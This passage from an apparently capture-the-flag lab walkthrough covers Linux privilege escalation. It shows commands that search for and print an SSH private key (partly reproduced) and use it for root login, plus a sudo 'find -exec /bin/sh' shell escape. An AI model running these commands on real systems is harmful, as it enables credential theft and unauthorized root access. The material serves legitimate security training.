 <h3 align="left">Answer the question below</h3>

> 7.1. <em>What's the full file path of the sensitive file you discovered?</em><br><a id='7.1'></a>
>> <strong><code>/backups/supersecretkeys/id_rsa</code></strong><br>

```bash
TCM@debian:~$ find / -name authorized_keys 2> /dev/null
TCM@debian:~$ find / -name id_rsa 2> /dev/null
/backups/supersecretkeys/id_rsa
TCM@debian:~$ cat /backups/supersecretkeys/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAzSWvqfxeIpTuFmdAFyWDQho0h8ud3g9zSJ32pjosNcTQJe3/kYC4
B5hMlfIXzH5oKn9YRn55O10RYxppZpXFsc4H7pYquD5TLKLmaH7UqBj9X1WjGeZLexx+f2
...
```

```bash
root@ip-10-10-66-139:~# nano id_rsa
root@ip-10-10-66-139:~# chmod 400 id_rsa
root@ip-10-10-66-139:~# ssh -i id_rsa root@10.10.254.19
...
Last login: Wed Jun 17 23:31:40 2020 from 192.168.4.51
root@debian:~#
```

<br>

<h2>Task 8 . Privilege Escalation - Sudo (Shell Escaping)</h2>

<h3 align="left">Answer the question below</h3>

> 8.1. <em>Click 'Completed' once you have successfully elevated the machine</em><br><a id='8.1'></a>
>> <strong><code>No answer needed</code></strong><br>

```bash
TCM@debian:~$ sudo -l
Matching Defaults entries for TCM on this host:
    env_reset, env_keep+=LD_PRELOAD

User TCM may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
TCM@debian:~$ sudo find /bin -name nano -exec /bin/sh \;
sh-4.1# whoami
root
sh-4.1# 
```
